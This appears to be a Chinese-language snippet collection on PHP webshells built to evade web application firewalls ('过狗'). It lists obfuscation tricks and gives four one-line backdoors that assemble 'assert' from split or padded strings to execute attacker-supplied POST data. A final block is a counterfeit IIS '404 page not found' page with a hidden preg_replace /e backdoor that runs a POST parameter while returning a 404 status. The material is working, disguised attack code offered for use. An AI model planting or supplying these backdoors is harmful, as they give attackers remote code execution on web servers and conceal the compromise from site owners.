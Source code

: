 过狗一句话总结为：**打乱字符；编码技术；拆分组合；创建，匹配**。

### 变形的一句话

```
<?php ($_=@$\_GET\[2\]).@$\_($_POST\[sz\])?>

<?php $a = str\_replace(x,"","axsxxsxexrxxt");$a($\_POST\["sz"\]); ?>

<?php $k="ass"."ert"; $k(${"_PO"."ST"} \['sz'\]);?>

<?php $a = "a"."s"."s"."e"."r"."t";  $a($_POST\["sz"\]); ?>
```

### 404隐藏PHP后门
  
```php
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>无法找到该页</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=GB2312">
<STYLE type="text/css">
  BODY { font: 9pt/12pt 宋体 }
    H1 { font: 12pt/15pt 宋体 }
      H2 { font: 9pt/12pt 宋体 }
        A:link { color: red }
      A:visited { color: maroon }
      </STYLE>
      </HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>
      <h1>无法找到该页</h1>
      您正在搜索的页面可能已经删除、更名或暂时不可用。
      <hr>
      <p>请尝试以下操作：</p>
      <ul>
      <li>确保浏览器的地址栏中显示的网站地址的拼写和格式正确无误。</li>
      <li>如果通过单击链接而到达了该网页，请与网站管理员联系，通知他们该链接的格式不正确。
      </li>
      <li>单击<a href="http://www.asp-muma.com/javascript:history.back(1)">后退</a>按钮尝试另一个链接。</li>
      </ul>
      <h2>HTTP 错误 404 - 文件或目录未找到。<br>Internet 信息服务 (IIS)</h2>
      <hr>
      <p>技术信息（为技术支持人员提供）</p>
      <ul>
      <li>转到 <a >Microsoft 产品支持服务</a>并搜索包括&ldquo;HTTP&rdquo;和&ldquo;404&rdquo;的标题。</li>
      <li>打开&ldquo;IIS 帮助&rdquo;（可在 IIS 管理器 (inetmgr) 中访问），然后搜索标题为&ldquo;网站设置&rdquo;、&ldquo;常规管理任务&rdquo;和&ldquo;关于自定义错误消息&rdquo;的主题。</li>
      </ul>
      </TD></TR></TABLE>
      <?php
      @preg\_replace("/\[checksql\]/e",$\_POST\['cnsec'\],"saft");
      header('HTTP/1.1 404 Not Found');
      ?>
      </BODY></HTML>
```
